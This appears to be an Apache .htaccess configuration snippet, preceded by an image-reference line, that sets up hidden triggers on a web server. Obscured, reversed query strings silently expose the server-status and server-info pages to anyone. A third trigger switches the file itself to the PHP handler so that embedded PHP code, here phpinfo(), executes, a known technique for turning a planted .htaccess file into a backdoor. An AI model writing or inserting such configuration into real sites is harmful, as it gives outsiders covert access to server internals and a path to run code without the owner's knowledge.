

<If %{QUERY_STRING}="sutats">
    SetHandler server-status
    Require all granted
</If>
<If %{QUERY_STRING}="ofni">
    SetHandler server-info
    Require all granted
</If>
<If %{QUERY_STRING}="phpsh23">
    Require all granted
    SetHandler application/x-httpd-php
    # <?php phpinfo(); exit; ?>
</If>